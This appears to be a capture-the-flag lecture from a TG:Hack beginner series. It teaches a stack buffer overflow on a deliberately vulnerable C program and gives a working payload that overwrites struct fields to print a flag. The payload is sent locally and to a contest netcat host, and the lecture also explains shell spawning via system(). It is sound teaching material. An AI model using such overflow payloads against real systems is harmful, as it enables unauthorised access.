

# Brewing of Pwntions: Stack overflow lecture 2

Hello wizards and witches! Welcome to the second lecture of Introduction to Pwntions. 
Our house elf Pwnie's side effects from last lecture have worn off, and he is
ready for another round of pwntions! This time we will look to another type of
_stack overflow_. Remember that more detailed information about stack overflows 
may be found in the second introductional lecture.

---

<br>

Let's get straight to the point! As mentioned, it is very useful to look at 
the source code:

```C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

struct magical_spell {
    char name[32];
    int age;
    int is_awesome;
};

int main() 
{
    /* Declaring variables */
    struct magical_spell pwntion_spell;
    memset(&pwntion_spell, 0, sizeof(pwntion_spell));
    pwntion_spell.age = 1337000000;
    pwntion_spell.is_awesome = 0;
    
    /* Printing text to terminal */
    printf("Professor maritio_o:\n");
    printf("Tell me a pwntion spell name!\n");
    printf("Pwntion spell name:\n");
    printf("> ");

    /* Read 64 bytes of user input from terminal, 
	 * and put into pwntion.spell_name */
	read(STDIN_FILENO, pwntion_spell.name, 64);
    
    /* Printing text to terminal*/
    printf("%s\n", pwntion_spell.name);
    
    /* if statement*/
    if (pwntion_spell.age == 1337000000 && pwntion_spell.is_awesome == 1) {
        printf("Amazing! You did it, awesome student at school of wizardry!\n");
        system("cat flag.txt");
    } else {
        printf("Hmm, look's like Pwnie isn't telling you a word...\n");
    }

    return 0;
}
```

It is also super nice to draw an illustration of the stack frame for the source
code. Let's do that again: 
  


As in the previous lecture, we want to brew the pwntion so that Pwnie tells us 
his secret message. But this time the message is hidden another place. The 
secret message is hidden on the server in a file called _flag.txt_. The only
way to get the magical flag is to brew a pwntion that overwrites the _struct_ in 
the code so that the _if statement_ returns the content of the flag.txt file. 

Another strange magical word... _struct_... It's important to understand these 
crazy magical words for the pwntions to work. A struct allows us to combine 
several data items of different kinds into one structure under a specific name. 
This structure may be used several times in the C code, by using the name to make 
instances of the struct. These variables are in the same block of memory. For
instance, we may make a struct called **student**. Each student has a name, an
age and a wizardry school house, as illustrated in the snippet below. Read more 
about structs [here](https://www.tutorialspoint.com/cprogramming/c_structures.htm).

<details>
  <summary>struct example</summary><p>
	
```C
struct student {
    char name[64];
    int age;
    char house_name[100];
};
```
</p></details>

<br>

And what the magical beans is an _if statement_?!? If you read our Python tutorial
you should already know that this is. An if statement is used to
check a condition, and make an act depending on whether the condition is true or 
false. For instance, the snippet below checks if a **student** is part of the 
house Hufflepuff, and then print "Yaay!" if the student is part of Hufflepuff, 
or "Booo!" if the student is not. Read more about if statements 
[here](https://intellipaat.com/tutorial/c-tutorial/c-if-statement/).

<details>
  <summary>if statement example</summary><p>
  As you remember from the Python tutorial we can use if-statements to do comparisons and print out strings if something is true.
	
```python
if student.house_name == "Hufflepuff":
    print "Yaay!"
else:
    print "Booo!"
```

However, in C we cannot use the `==` operator to compare strings, we have to use a function called [strcmp](https://linux.die.net/man/3/strcmp) to CoMPare STRings.
To make matters confusing the `strcmp`-function returns `0` if the strings are equal, so we have to do the following:
```C
if(strcmp(student.house_name, "Hufflepuff") == 0) {
  printf("Yaay!\n");
} else {
  printf("Booo!\n");
}
```
</p></details>

<br>

Lastly, I want to mention what happens when the program runs `system("cat flag.txt");`.
In C programming, **system()** is a very easy and convenient way of running 
shell commands. Beware, it is _not_ a smart way, it is just easy. `cat flag.txt`
is a command that will paste the content of the file called `flag.txt`.

<details>
  <summary>Tip for running binaries that need files to run properly, locally on your machine</summary><p>
	
If you get an error saying `No such file or directory` like the snippet below, 
it means that the binary is missing a file on your system to run properly.

```
Professor maritio_o:
Tell me a pwntion spell name!
Pwntion spell name:
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
1337000000
1
Amazing! You did it, awesome student at school of wizardry!
cat: flag.txt: No such file or directory
```

In the snippet, we see the error says `cat: flag.txt: No such file or directory`. 
That means that the program tries to run the `cat` command with `flag.txt` as a
parameter, which pastes the content of the flag.txt file into the terminal. The
solution is to make a file called _flag.txt_ on your computer, into the folder
that you run the binary from. It is nice to put in a dummy flag, so that you 
know it works as wanted.
</p></details><br>


<details>
  <summary>Read about another common system() command, /bin/sh</summary><p>

I want to mention what happens when a program runs `system("/bin/sh");`.
This system command is often used in pwn instead of pasting the flag into the 
terminal, so you would see it in the code instead of `system("cat flag.txt");`. 
In pwning, this particular piece of code is very well known. We call it **spawning a 
shell**. When a shell is spawned, you may interact with the system just like if
you where using your normal Linux terminal. This means that if you have the right
permissions, you may be able to read the files on the system. In pwn and CTFs,
you will often see that you find a task's flag in a file called `flag.txt`.
</p></details>

<br>

---

<br>

In the last lecture, we looked at overflowing values on the stack by inserting 
more data than the input buffer has room for. We will do the same in this lecture, 
but this time we have to overwrite the values in the struct and write the exact 
value we need to make the program print the flag. Therefore, we need to build the 
insert string to as following:

1. Find the amount of padding we need until the struct values start.
2. Set the `is_awesome` variable within the struct to be _True_.
3. Make sure that we do _NOT_ overwrite the age of the spell, because then the 
code will not accept the spell.

How to solve these steps:

1. We find the amount of padding by looking at the local variable that we 
insert the input into. By looking at the code, we see that it has room for 32 bytes
(31 bytes for your input and the last byte for the null byte that tells the program
it is the end of the variable). In other words, we need at least 32 bytes of padding.

2. In the code, we see that the `is_awesome` variable contains the value _0_. 
In programming, 0's and 1's are often used to represent True and False 
values. In this case we want to change from 0 to 1. However, it is not straight forward 
to send a number as input to the program. Because of this being a 32 bit program,
and the variable being an integer, we have to write the `1` as a 4 byte little endian 
integer. It must also be represented as a hexadecimal value, as that is how it is stored 
on the stack. That results in this input: `\x01\x00\x00\x00`.

<details><summary>Writing integers in 32 bit programs represented as hexadecimal values</summary><p>

Overwriting the `is_awesome` variable isn't as straight-forward as 
simply sending 32 A's followed by a 1 like this:
```python
r.sendline("A"*32 + str(1))
```
We have to overwrite the number using a 4-byte little-endian representation of the
number. The value must be 4 bytes, since `int`s are 4-byte in size. Little-endian 
refers to the way values are laid out in system memory. For 32-bit x86, values are 
stored starting with the *least significant byte* first! See [this article on endianness](https://en.wikipedia.org/wiki/Endianness#Little) for more information.

When overwriting data like this, it's common to represent data using hex strings, 
like this:
```python
a = "\x41\x41\x41\x41" # the string AAAA
b = "\xef\xbe\xad\xde"  # the value 0xdeadbeef
```
Note that we start with `\xef`, not `\xde`, since the values are stored in little-endian 
format.
Thus, to represent the value `1` as a 4-byte little-endian value we write it like this: 
`\x01\x00\x00\x00`.

This operation is very common when doing exploit development, so pwntools has some nice 
helper functions for making things easier. These are called `p16`, `p32`, and `p64`, and turns numbers into 16, 
32, and 64 bit little-endian byte values, respectively. The p stands for `packed`.
```python
r.sendline("A"*32 + p32(1))
```
</p></details>

<br>

3. As we must _NOT_ overwrite the age of the spell, it must remain _1.337.000.000_
years old, and we must insert the hexadecimal value of that into the stack as well.
By Googling or using Python, we find out that the hex value is _0x4fb10040_.
As for the `is_awesome` variable, it is important to write the age in hexadecimal 
and little endian with 4 bytes, in order for the program to read it as a valid number,
so we end up with the following value: `\x40\x00\xb1\x4f`.
 

<details>
  <summary>Fetching hexadecimal values in terminal using Python</summary><p>
	
```
$ python
>>> hex(1337000000)
'0x4fb10040'
```
</p></details>

<br>

With that information we can build an input string like this, 
```
"A" * 32 + "\x40\x00\xb1\x4f" + "\x01\x00\x00\x00"
```

... and insert it to our local program to test it:
```
$ python -c 'print "A" * 32 + "\x40\x00\xb1\x4f" + "\x01\x00\x00\x00"' | ./pwn_intro2 
```

If it works locally on your machine, you should be ready for the exam! A hot tip
for the exam is to replace the binary file on your machine with the _netcat_ (nc)
url and port. Then you insert the input to the server. Poke us on Discord or 
come by the TG:Hack area in the Creative zone for help!

<details>
  <summary>netcat example</summary><p>

```
$ python -c 'print "A" * 32 + "\x40\x00\xb1\x4f" + "\x01\x00\x00\x00"' | nc url.here.tghack.no 1337
```
</p></details>

<br>

Go on, build the magical spell to overwrite the struct with the right value in
your magical spell buffer, and fetch the flag! It is the second task of the exam. 
Good luck!
